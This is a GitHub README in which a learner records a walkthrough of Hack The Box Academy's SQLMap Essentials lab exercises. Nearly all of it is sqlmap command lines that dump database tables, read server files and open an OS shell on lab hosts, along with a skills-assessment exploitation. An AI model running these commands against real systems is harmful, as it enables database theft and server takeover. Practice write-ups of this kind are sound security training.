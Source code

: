 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
Case 4: Simple Dump

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

Case 5: Time-Based Blind SQLi

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

Case 6: Using Prefix Payload

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

Case 7: Union-Based Injection

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

Case 8: CSRF Token Handling

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

Case 9: Randomized Parameter

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

Case 10: Random Agent

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

Case 11: Tamper Script

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

File Reading & OS Shell

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

OS Shell Access

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

Skills Assessment: Minishop Web App

Overview

Application: Minishop

Pages Analyzed: Blog, Contact Us, Catalog

Findings

Blog: Not vulnerable (form action is '#')

Contact Us: Not vulnerable (form action is '#')

Catalog (/shop): Vulnerable — uses JavaScript to post JSON to action.php

Exploitation

Intercepted request using Burp Suite

Saved to shop.txt

Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

Outcome

Successfully dumped final_flag table from the production database.

Conclusion

This module strengthened my understanding of:

SQL injection techniques (Boolean-based, Time-based, Union-based)

Tamper scripts, CSRF tokens, and header injection

File read and OS shell interaction

Real-world application analysis and exploitation

I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics.

📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

🚀 Author

Manoj Ghimire

Connect on LinkedIn | Contact: email@example.com

📜 License

This project is licensed under the MIT License.

MIT License

Copyright (c) 2025 Manoj Ghimire

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

